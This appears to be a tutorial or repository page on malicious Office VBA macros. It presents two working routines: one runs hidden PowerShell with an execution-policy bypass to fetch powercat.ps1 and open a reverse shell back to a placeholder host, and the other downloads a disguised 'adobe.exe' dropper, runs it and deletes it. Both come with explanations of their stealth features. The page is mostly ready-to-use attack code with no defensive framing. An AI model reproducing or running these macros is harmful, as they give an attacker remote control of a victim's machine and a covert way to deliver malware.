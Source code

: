 ```
Sub powercat()
	Dim url As String
	Dim psscript As String
        url = "http://<ip>:<port>/powercat.ps1"
        psscript = "IEX (New-Object System.Net.WebClient).DownloadString('" & url & "'); powercat -c <ip> -p <port> -e cmd"
        Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -c """ & psscript & """", vbHide
End Sub
```

**What This Does**

1. **Defines** `url` pointing to `powercat.ps1`, which is hosted on `<ip>:<port>`.
2. **Constructs the PowerShell script (**`psscript`**)**:



- Uses `IEX` (Invoke-Expression) to execute a downloaded script in memory.
- Runs **PowerCat** (`powercat -c <ip> -p <port> -e cmd`), which:
- **Connects back** to &lt;ip&gt; on port `<port>`.
- **Spawns** `cmd.exe` for remote command execution.

**3. Executes the PowerShell command**:

Runs it with:

- `-ExecutionPolicy Bypass`: Bypasses PowerShell execution restrictions.
- `-WindowStyle Hidden`: Runs it stealthily.
- `vbHide`: Hides the process from the user.

* * *

### Auto-Remove Dropper

This function:

1. **Downloads** `adobe.exe` to `C:\Users\Admin\AppData\Local\Temp\`
2. **Executes** `adobe.exe` **and waits for it to finish**
3. **Deletes itself after execution**

### Breakdown of `AutoRemoveDropper`

```
Sub AutoRemoveDropper()
	Dim dropper As Object
	Set dropper = CreateObject("WScript.Shell")
        dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile 'C:\Users\Admin\AppData\Local\Temp\adobe.exe'; Start-Process 'C:\Users\Admin\AppData\Local\Temp\adobe.exe' -Wait; Remove-Item -Path 'C:\Users\Admin\AppData\Local\Temp\adobe.exe' -Force""", 0, True
End Sub
```

**What This Does**

1. **Downloads** `adobe.exe` via `Invoke-WebRequest` from `<ip>:8080`.
2. **Runs** `adobe.exe` **and waits for it to finish** (`-Wait` ensures it fully executes before removal).
3. **Deletes** `adobe.exe` from the `Temp` directory.
